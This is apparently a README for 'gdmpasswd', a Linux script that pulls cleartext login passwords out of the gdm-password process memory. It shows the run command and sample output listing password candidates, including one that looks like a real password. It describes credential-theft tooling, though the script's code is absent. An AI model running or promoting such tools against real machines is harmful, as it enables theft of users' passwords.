 # gdmpasswd
Dumps potential cleartext passwords for the currently logged on user from the gdm-password process memory.

```
root@pwnd:~# ./gdmpasswd.sh 
          __                                               __ 
.-----.--|  |.--------.-----.---.-.-----.-----.--.--.--.--|  |
|  _  |  _  ||        |  _  |  _  |__ --|__ --|  |  |  |  _  |
|___  |_____||__|__|__|   __|___._|_____|_____|________|_____|
|_____|               |__|                                    

USERNAME: root 

PASSWORD CANDIDATES:

close
counts.User'
r00tP@ss!89
files
group
hosts
myhostname
netgroup
networks
passwd
protocols
publickey
services
shadow

root@pwnd:~# 

```
